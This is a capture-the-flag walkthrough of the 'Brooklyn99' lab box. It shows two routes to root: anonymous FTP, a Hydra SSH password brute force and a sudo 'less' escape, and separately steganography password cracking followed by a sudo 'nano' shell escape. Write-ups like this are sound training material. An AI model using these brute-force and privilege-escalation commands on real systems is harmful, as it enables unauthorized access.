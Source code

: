 # Brooklyn99 CTF
## Enumeration
Going to the site and checking the html we can see this 
```html 
<!-- Have you ever heard of steganography? -->
```
**Intersting**   
There is 2 intended way of rooting the box. 
------------
# Method one
### Nmap scan 
```bash
└─# nmap 10.10.15.26 -T5   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-26 07:33 EST
Nmap scan report for 10.10.15.26
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
````
### FTP 
I didnt check if FTP has **Anonymous** login enabled but tried it and we can login as anonymous. 

navigating  through we found this file
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
```
We can download the text file to your machine through get. (you can also use mget command)
The note we found is as follow
>From Amy,

>Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

This might come in handy knowing jake ```"Detective Jake Peralta(holts voice)"``` uses weak password :).

**``Username : jake``**
lets try to brute force the accound jake with rock you

### Hydra
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt  10.10.15.26  ssh -t 4
```  
we used **jake** as the user and used argument **-P** to specify our world list with out IP and port we are attacking which is **ssh** 
``` bash
host: 10.10.15.26   login: jake   password: 987654321
```  
Oh dear jake u failed us hope this wont let me in .  
```ssh jake@'ur_ip_here'```  
And we are in. **Oh Jake Peralta Amy would be disappointed**

## Privilege Escalation
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ 
```
intersting jake can run /usr/bin/less as sudo. Lets go to [gtfobins.github.io](gtfobins) to check how we can privilege escalate our way.   
By searching less we found a way to escalte. We can run less binary as a superuser. we can spawn a shell with higher privilage 
```sudo less /etc/profile ```
```!/bin/sh```


```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
```
>-- Creator : Fsociety2006 --
>Congratulations in rooting Brooklyn Nine Nine
>Here is the flag: 63a9f0ea*********96b649e85481845
>
>Enjoy!!

### Forgot the user flag but here it is 
----------------
# Method 2
## Steganography
[https://0xrick.github.io/lists/stego](0xrick) Has good resources on Steganography tools to use.  
Lets explore some  
```bash
└─# exiftool brooklyn99.jpg 
ExifTool Version Number         : 
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 68 KiB
File Modification Date/Time     : 2020:05:26 05:01:39-04:00
File Access Date/Time           : 2022:02:26 05:38:36-05:00
File Inode Change Date/Time     : 2022:02:26 05:35:43-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
````
THis is the exiftool you can run more enumration using other toolds like **file** and **string**  
Running string returned lot of strings inside. Maybe we can check those. But an intersting thing to notice is when we tried to check if there is anyting inside the image using **steghide** it asks for a password. So lets run **stegcracker** to crack the password with common passwords.  


```bash
└─# stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 

Tried 20203 passwords
Your file has been written to: brooklyn99.jpg.out
**** //<= password

```` 
lets now go and extract the file inside the image.
```bash
└─# steghide extract -sf brooklyn99.jpg                        
Enter passphrase: 
wrote extracted data to "note.txt".
 ```
This is the note that is extracted
>Holts Password:
>**********@ninenine

>Enjoy!!

We got holts password. using hold as user name and the password we found we are in
```bash
└─# ssh holt@10.10.45.249
holt@brookly_nine_nine:~$ whoami
holt
```
## Privilege Escalation
Captain Ray Holt is can run **/bin/nano** binary as sudo . **Intersting**   
Going to gtfobin we found this
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
lets run it 


```bash
holt@brookly_nine_nine:~$ sudo nano

````
this will take us to nano Clicking control R and control x will enable us to execute system commands ruuning 
```reset; sh 1>&0 2>&0``` will give us shell as root

### Proof of concept 
```bash

Command to execute: reset; sh 1>&0 2>&0#                                                                            
# whoami
root
# 
````
We have found both ways to root the box. 
--------
